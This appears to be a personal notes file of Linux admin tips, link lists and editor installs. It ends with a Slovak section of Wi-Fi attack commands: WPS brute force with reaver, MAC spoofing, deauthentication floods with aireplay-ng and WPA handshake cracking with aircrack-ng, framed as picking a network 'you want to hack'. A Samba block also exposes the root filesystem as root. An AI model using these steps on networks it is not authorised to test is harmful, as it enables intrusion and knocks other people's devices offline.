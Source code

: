 # Disable / Enable eth0
~~~
#!/bin/bash  
clear
echo "Initiating script."
ifdown Wired_connection_1
echo "Done!"

#!/bin/bash  
echo "Initiating script."
ifup Wired_connection_1
echo "Done!"
~~~

# Mount vbox shared folder on linux
Do not do: mount -t vboxsf -o uid=1000,gid=1000 VMs-shared /mnt
- /mnt remains empty

If I try to do this after: root@fhsw-web:/mnt# mount -t vboxsf -o uid=1000,gid=1000 VMs-shared /mnt/VMs-shared
It will throw: mount: /mnt/VMs-shared: mount point does not exist.

Check current mounts: root@fhsw-web:/mnt# mount
Try to unmount: root@fhsw-web:/# umount VMs-shared
Throws: /mnt: target is busy.
Need to exit that folder: root@fhsw-web:/mnt# cd ..

Repeat: root@fhsw-web:/# umount VMs-shared

Do properly: root@fhsw-web:/# mount -t vboxsf -o uid=1000,gid=1000 VMs-shared /mnt/VMs-shared

# Install .deb file with dpkg
sudo dpkg -i ~/Downloads/*.deb

# Make root prompt red
~~~
PS1='${debian_chroot:+($debian_chroot)}\[\033[01;31m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '
~~~

http://www.mogilowski.net/lang/en-us/2011/12/29/color-bash-prompt-on-ubuntu-and-debian/
Edit ”/root/.bashrc” and change ”force_color_prompt=yes” like for your user

#Linux root password recovery
- Boot into recovery mode (via advanced options in GRUB)
- select root
- type the normal password
- mount -rw -o remount /
root@ubuntu:~# passwd jorge
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
root@ubuntu:~# reboot

Normal login.

# Links 
http://www.server-world.info/en/note?os=CentOS_7&p=x&f=2
https://www.samba.org/samba/docs/man/Samba-HOWTO-Collection/install.html#id2551914
http://www.djvuviewer.com/
http://askubuntu.com/questions/187243/how-to-mount-a-samba-share-at-boot-time
http://www.ghacks.net/2009/04/19/auto-mounting-a-samba-share-in-linux/
wiki.centos.org/TipsAndTricks/WindowsShares#head-9d5b00e8e14089e8970de5f7a047616a32feb376
http://tldp.org/HOWTO/Bash-Prog-Intro-HOWTO-2.html#ss2.1
https://www.linkedin.com/pulse/network-automation-via-python-mostafa-hassan
https://pynet.twb-tech.com
http://packetpushers.net/intro-python-network-automation/
https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
https://unix.stackexchange.com/questions/92715/can-i-transfer-files-using-ssh
https://www.howtoforge.com/tutorial/clamav-ubuntu/
https://askubuntu.com/questions/909273/clamav-error-var-log-clamav-freshclam-log-is-locked-by-another-process
https://www.clamav.net/documents/installing-clamav#debian
https://www.pcworld.com/article/208720/how_to_fix_a_windows_infection_using_linux.html
https://www.howtoforge.com/community/threads/debian-vi-vim-color-syntax.13715/
https://wiki.debian.org/iptables
http://forums.justlinux.com/showthread.php?70876-iptables-basics
https://www.linuxquestions.org/questions/linux-security-4/failed-ssh-login-attempts-340366/?perpage=15
https://www.linuxquestions.org/questions/linux-security-4/ssh-tricks-any-way-to-block-failed-attempts-by-ip-address-342359/
https://www.bitvise.com/getting-started-hardening-ssh-server
https://security.stackexchange.com/questions/21027/invalid-users-trying-to-log-in-to-my-server
https://www.raspberrypi.org/documentation/linux/usage/users.md
https://lists.blocklist.de/lists/ssh.txt
https://raspberrypi.stackexchange.com/questions/29399/strange-ip-connected-to-ssh
https://stackoverflow.com/questions/15190391/ssh-directory-not-being-created
https://wiki.ubuntu.com/SystemdForUpstartUsers
https://bugs.kde.org/show_bug.cgi?id=339866
https://askubuntu.com/questions/307/how-can-ppas-be-removed
https://en.wikipedia.org/wiki/FreeBSD
https://en.wikipedia.org/wiki/PfSense
http://www.dslreports.com/forum/r31134636-Routers-PfSense-or-EdgeRouter
http://www.dslreports.com/forum/network
https://stackoverflow.com/questions/7005713/how-to-compile-a-c-program-in-linux
https://askubuntu.com/questions/61408/what-is-a-command-to-compile-and-run-c-programs
www.tecmint.com/best-linux-ide-editors-source-code-editors/
http://xmodulo.com/good-ide-for-c-cpp-linux.html
https://stackoverflow.com/questions/24109/c-ide-for-linux
www.alexeyshmalko.com/2014/using-vim-as-c-cpp-ide/

# Free BSD stuff
https://www.freebsd.org/doc/handbook/users-synopsis.html
https://www.freebsd.org/doc/en_US.ISO8859-1/articles/new-users/adding-a-user.html
https://www.unixmen.com/freebsd-vs-openbsd/
https://www.freebsd.org/doc/handbook/bsdinstall-post.html
https://serverfault.com/questions/58363/my-unqualified-host-name-foo-bar-unknown-problem
https://www.freebsd.org/doc/en_US.ISO8859-1/articles/linux-users/shells.html
https://www.freebsd.org/doc/en_US.ISO8859-1/articles/linux-users/article.html
https://www.freebsd.org/doc/handbook/shells.html
https://www.cyberciti.biz/faq/freebsd-bash-installation/
https://www.cyberciti.biz/faq/freebsd-install-sudo-command/
https://www.disk-partition.com/gpt-mbr/mbr-vs-gpt-1004.html


# Notepad alternatives for Linux
https://itsfoss.com/notepad-alternatives-for-linux/

###Notepadqq
sudo add-apt-repository ppa:notepadqq-team/notepadqq
sudo apt-get update
sudo apt-get install notepadqq

###Geany 
sudo apt-get install geany scite

###Sublime
sudo add-apt-repository ppa:webupd8team/sublime-text-2
sudo apt-get update
sudo apt-get install sublime-text

# Correction of Share already in use 
The network folder specified is currently mapped using a different user name and password", when trying to connect to a drive remotely

net use /delete \\server\share

# Samba sharing root folder
[root$]
path = /
create mask = 0755
force user = root
browsable = yes

# IRC client
https://irssi.org/download/

# Janciho stary github
https://github.com/yafw/curses-vbox-manager

# wlan 802.11 tech
airmon-ng start wlan0
airodump-ng wlan0
vyberes bssid toho coho chces hacknut
airodump-ng -c tocojepodpismenomCH --bssid bssid mon0
to mas na to ked chces zhadzovat konkretne zariadenia
ked mas zkopirovane to bssid
reaver -i mon0 -b bssid -vv -c topodCH

Z wordlistu....heslo musi byt len slovo: 
http://www.youtube.com/watch?v=AlE6U3iQMTk
1) airmon-ng start wlan0
2) ifconfig mon0 down
3) macchanger -r mon0
4) ifconfig mon0 up
5) airodump-ng mon0
6) airodump-ng -c 5 -w WPACRACK --bssid FF:17:6A:EA:70:FF --ivs mon0
7) aireplay-ng -0 100 -e testwlan mon0
8) aircrack-ng -w /usr/share/wordlists/rockyou.txt WPACRACK-01.ivs

If aireplay-ng say that the channel is not correct
1) ifconfig mon0 down
2) iwconfig mon0 channel 6
3) ifconfig mon0 up
